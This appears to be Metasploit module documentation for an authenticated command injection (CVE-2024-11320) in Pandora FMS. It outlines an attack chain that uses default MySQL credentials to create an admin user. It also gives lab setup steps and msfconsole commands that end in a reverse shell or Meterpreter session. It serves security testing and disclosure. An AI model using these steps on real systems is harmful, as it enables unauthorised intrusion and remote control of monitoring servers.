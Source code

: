 ## Vulnerable Application
Pandora FMS is a monitoring solution that provides full observability for your organization's technology.
This module exploits an command injection vulnerability in the LDAP authentication mechanism of Pandora FMS.
You need have admin access at the Pandora FMS Web application in order to execute this RCE.
This access can be achieved leveraging a default password vulnerability in Pandora FMS that allows an attacker
to access the Pandora FMS MySQL database, create a new admin user and gain administrative access to the
Pandora FMS Web application.
This attack can be remotely executed over the WAN as long as the MySQL services are exposed to the outside world.
This issue affects Community, Free and Enterprise editions: from `v7.0NG.718` through <= `v7.0NG.777.4`

The following releases were tested.

**Pandora FMS Releases:**
* Pandora FMS Community Edition v7.0NG.718 (CentOS 7 ISO image)
* Pandora FMS Community Edition v7.0NG.759 (CentOS 7 ISO image)
* Pandora FMS Community Edition v7.0NG.777-LTS (Ubuntu 22.04)
* Pandora FMS Community Edition v7.0NG.772-LTS (Ubuntu 22.04)

## Installation steps to install Pandora FMS Community, Free or Enterprise Editions
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download [Pandora FMS iso](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/).
* Install the iso image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options.
* Boot up the VM and should be able to access the Pandora FMS appliance either thru the console, `ssh` on port `22`
* or via the `webui` via `http://your_ip/pandora_console/index.php`.

* Note: from version `v7.0NG.760` follow the installation manual below:
* [Non ISO installation](https://pandorafms.com/manual/!current/en/documentation/pandorafms/installation/01_installing).

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/pandora_fms_auth_rce_cve_2024_11320`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings
